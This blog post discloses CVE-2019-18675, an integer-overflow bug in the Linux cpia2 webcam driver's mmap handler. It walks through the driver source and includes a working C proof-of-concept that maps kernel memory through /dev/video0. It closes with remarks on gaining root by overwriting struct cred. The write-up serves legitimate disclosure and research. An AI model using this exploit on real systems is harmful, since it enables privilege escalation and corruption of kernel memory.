 ```yaml
---
layout: post
title: mmap handler exploitation
category: Kernel-Research 
---
```


## Description
Recently I started to review the linux kernel, I've putted much  time and effort trying to identify vulnerabilities. 
I looked on the cpia2 driver , which is a V4L driver , aimed for supporting cpia2 webcams. official documentation [here]( https://www.kernel.org/doc/html/latest/media/v4l-drivers/cpia2.html). 
I found a vulnerability in the mmap handler implementation of the driver. Kernel drivers may re-implement their own mmap handlers , usually for speeding up the process of exchanging data between user space and kernel space. The cpia2 driver re-implement a mmap hanlder for sharing  the frame's buffer with the user application which controls the camera.
---

## Lets get into it 
Here is the userspace mmap function prototype (taken from man):
```c
void *mmap(void *addr, size_t length, int prot, int flags,
                  int fd, off_t offset);
```
Here the user supplies parameter for the mapping , we will be interested in the size and offset parameters.
- length - will determine the length of the mapping
- offset - will determine the offset from the beginning of the device we will start the mapping from.

The driver's specific mmap handler will remap kernel memory to userspace using a function like  [remap_pfn_range](https://www.kernel.org/doc/htmldocs/kernel-api/API-remap-pfn-range.html)
## CVE-2019-18675

Lets have a look at the cpia2 mmap handler implementation:

We can see  the file_operations struct:
```c

/***
 * The v4l video device structure initialized for this device
 ***/
static const struct v4l2_file_operations cpia2_fops = {
	.owner		= THIS_MODULE,
	.open		= cpia2_open,
	.release	= cpia2_close,
	.read		= cpia2_v4l_read,
	.poll		= cpia2_v4l_poll,
	.unlocked_ioctl	= video_ioctl2,
	.mmap		= cpia2_mmap,
    };
```

Lets look at the function cpia2_mmap 
```c
static int cpia2_mmap(struct file *file, struct vm_area_struct *area)
{
	struct camera_data *cam = video_drvdata(file);
	int retval;

	if (mutex_lock_interruptible(&cam->v4l2_lock))
		return -ERESTARTSYS;
	retval = cpia2_remap_buffer(cam, area);

	if(!retval)
		cam->stream_fh = file->private_data;
	mutex_unlock(&cam->v4l2_lock);
	return retval;
}
```

It just calls the function cpia2_remap_buffer() with a pointer to the `camera_data` struct:

```c
/******************************************************************************
 *
 *  cpia2_remap_buffer
 *
 *****************************************************************************/
int cpia2_remap_buffer(struct camera_data *cam, struct vm_area_struct *vma)
{
	const char *adr = (const char *)vma->vm_start;
	unsigned long size = vma->vm_end-vma->vm_start;
	unsigned long start_offset = vma->vm_pgoff << PAGE_SHIFT;
	unsigned long start = (unsigned long) adr;
	unsigned long page, pos;

	DBG("mmap offset:%ld size:%ld\n", start_offset, size);

	if (!video_is_registered(&cam->vdev))
		return -ENODEV;

	if (size > cam->frame_size*cam->num_frames  ||
	    (start_offset % cam->frame_size) != 0 ||
	    (start_offset+size > cam->frame_size*cam->num_frames))
		return -EINVAL;

	pos = ((unsigned long) (cam->frame_buffer)) + start_offset;
	while (size > 0) {
		page = kvirt_to_pa(pos);
		if (remap_pfn_range(vma, start, page >> PAGE_SHIFT, PAGE_SIZE, PAGE_SHARED))
			return -EAGAIN;
		start += PAGE_SIZE;
		pos += PAGE_SIZE;
		if (size > PAGE_SIZE)
			size -= PAGE_SIZE;
		else
			size = 0;
	}

	cam->mmapped = true;
	return 0;
}
```
we can see that start_offset + size is being calculated , and the sum is being compared to the total size of the frames:
```c
if(... || (start_offset+size > cam->frame_size*cam->num_frames))
    return -EINVAL;
```

However, the calculation start_offset + size could wrap-around to a low value, allowing an attacker to bypass the check while still using a  big start_offset value which will lead to mapping of unintended  kernel memory. The only requirement is that the start_offset value will be a multiple of the frame_size (which can be controlled by the cpia2 driver options, by default its 68k).
And this can be  quite bad because a huge offset will allow us to perform a mapping in an arbitrary offset (outside of  the frame buffer's bounds)  , and this  can possibly result in  a privillege escalation

## Demo time!

I've used a qemu kernel virtual machine ([here]()).
Now we have to:

- Open /dev/video0 
- mmaping size 0x11000 at offset 0xffffffffffff0000. The overlow will ocuur and we will pass the check :)

Here is a minimalistic example for exploit code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <unistd.h>

#define VIDEO_DEVICE "/dev/video0"
int main(){

        pid_t pid;
        char command[40];

        int fd =  open(VIDEO_DEVICE , O_RDWR);
        if(fd < 0){
                printf("[-]Error opening device file\n");
        }

        printf("[+]Demonstration\n");
        pid = getpid();
        printf("[~]PID IS %d ", pid);

        getchar();
        int size =  0x11000;
        unsigned long mapStarter = 0x43434000;
        unsigned long * mapped = mmap((void *)mapStarter,  size, PROT_WRITE | PROT_READ, MAP_SHARED , fd , 0xffffffffffff0000);


        if(mapped == MAP_FAILED)
                printf("[-]Error mapping the specified region\n");
        else
                puts("[+]mmap went successfully\n");
        /*view the /proc/<pid>/maps file */

        sprintf(command , "cat /proc/%d/maps", pid);
        system(command);

        return 0;
}

```
Compile and run:

![](/assets/img/alictf-2016/demo.png) 

and B00M! we have got a read and write primitives in kernel space! By modifying `` struct cred `` or kernel function pointers/ variables we can possibly gain root! or destroy kernel data!

## Tips and thoughts 

- Because I didnt have the required hardware (for example,  Intel Qx5 microscope ), I've made some changes in the driver's code for this poc . I made some changes to the hardware and usb's parts, In a way that allowed me to test the mmap functionallity as its in the original driver . Because the vulnerability is not related to the hardware interaction partsl , this wasn't a problem. 
This way I could research more and even debug the interesting parts  without being depend on hardware.

- This vulnerability is more than 8 years old!

- This is my first public vulnerability!


## Additional info

- CVE-2019-18675 on [NVD](https://nvd.nist.gov/vuln/detail/CVE-2019-18675)
- CVE-2019-18675 on [Mitre](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-18675)
